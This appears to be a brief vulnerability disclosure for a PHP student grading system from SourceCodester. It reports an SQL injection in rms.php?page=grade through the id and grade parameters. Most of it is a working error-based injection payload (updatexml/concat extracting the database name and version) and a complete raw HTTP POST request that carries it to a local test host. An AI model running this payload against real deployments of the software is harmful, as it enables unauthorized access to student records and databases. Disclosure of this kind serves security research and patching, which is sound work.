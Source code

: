## Student-grading-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14522/student-grading-system-using-phpmysql-source-code.html

Vulnerability File: /student-grading-system/rms.php?page=grade

Vulnerability location: /student-grading-system/rms.php?page=grade,id

[+] Pyaload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&grade=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+

```sql
POST /student-grading-system/rms.php?page=grade HTTP/1.1
Host: 192.168.1.19
Content-Length: 133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.19
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.19/student-grading-system/rms.php?page=grade
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lpvr00hu9v7v4dvs4atvc5gdg6
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&grade=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/160225669-afb946fc-9fd5-407e-aff8-41be1d161af4.png)

